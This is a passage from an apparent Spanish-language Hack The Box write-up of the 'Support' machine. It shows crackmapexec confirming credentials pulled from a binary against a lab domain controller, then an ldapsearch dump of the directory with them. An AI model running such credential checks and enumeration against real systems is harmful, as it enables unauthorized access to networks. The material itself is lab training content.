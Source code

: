 Verifico la validez de la contraseña encontrada mediante crackmapexec, confirmando que las credenciales extraídas del binario son válidas.

```terminal
/home/kali/Documents/htb/machines/support:-$ crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

---
## Active Directory Exploitation

Realizo una búsqueda por ldap utilizando las credenciales previamente obtenidas.

```terminal
/home/kali/Documents/htb/machines/support:-$ ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapinfo
```

![](assets/img/htb-writeup-support/support3_1.png)
